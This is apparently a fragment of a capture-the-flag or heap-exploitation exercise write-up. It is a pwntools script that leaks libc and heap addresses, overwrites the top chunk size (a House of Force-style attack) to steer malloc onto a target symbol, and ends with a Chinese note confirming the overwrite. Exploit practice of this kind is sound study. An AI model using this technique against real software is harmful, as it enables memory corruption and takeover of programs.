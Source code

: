 ```python
io = start()

io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil("your option is: ")
io.timeout = 0.1



log.info(f"heap: 0x{heap:02x}")
log.info(f"target: 0x{elf.sym.target:02x}")
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap+0x20, elf.sym.target-0x20)
malloc(distance, b"a")


log.info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")
io.interactive()
```

测试确实改写可target:
